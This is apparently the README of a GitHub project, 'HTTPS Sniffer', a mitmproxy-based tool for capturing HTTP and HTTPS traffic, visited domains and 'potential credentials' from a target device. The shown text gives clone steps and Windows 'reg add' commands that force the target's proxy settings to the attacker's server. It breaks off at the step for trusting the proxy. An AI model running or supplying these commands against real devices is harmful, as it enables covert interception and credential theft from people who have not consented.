

# https_sniffer

<p align="center">
    
</p>

**HTTPS Sniffer** is a tool that captures **HTTP** and **HTTPS** traffic from your target device with a proxy server using **mitmdump** from **mitmproxy** tool. Root privileges into your target device are required.

With this tool you can capture all visited domains and potential credentials.

<p align="center">
    
</p>

## Table of contents

- [First stepts](#what-do-i-need-to-run-it)
    - [Necessary in your device](#for-your-device)
    - [Necessary in target device](#for-target-device)

## What do I need to run it?

### For your device

    1. First, clone the repository:

        ```git
        git clone https://github.com/sammy-ulfh/https_sniffer.git
        ```

    2. Then, navigate to the **https_sniffer/script** directory.

    3. Next, download mitmproxy tool from [mitmproxy.org](https://mitmproxy.org/).


### For target device

    1. First, turn on proxy settings:<br/>

        Set **ProxyEnable** configuration to 1. ProxyEnable is stored in "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" and you can change their value in terminal using:

        ```CMD
        reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable /t REG_DWORD /d 1 /f
        ```

    2. Second, set the proxy server setting:<br/>

        Set **ProxyServer** configuration to "192.18.100.100:8080" -> "{YOUR IP}:{YOUR PROXY SERVER PORT}". ProxyServer is stored in "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" and you can change their value in terminal using:

        ```CMD
        reg add "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer /t REG_SZ /d "192.168.100.100:8080" /f
        ```


        - **/v** allows you to indicate the name of the configuration that you want to change.
        - **/t** allows you to indicate the type of data that you will store. The **REG_SZ** syntax is for data strings.
        - **/d** allows you to indicate the data that you will store.
        - **/f** allows you to force the action without a confirmation when the file exists.

    3. Trust in your proxy server:<br/>
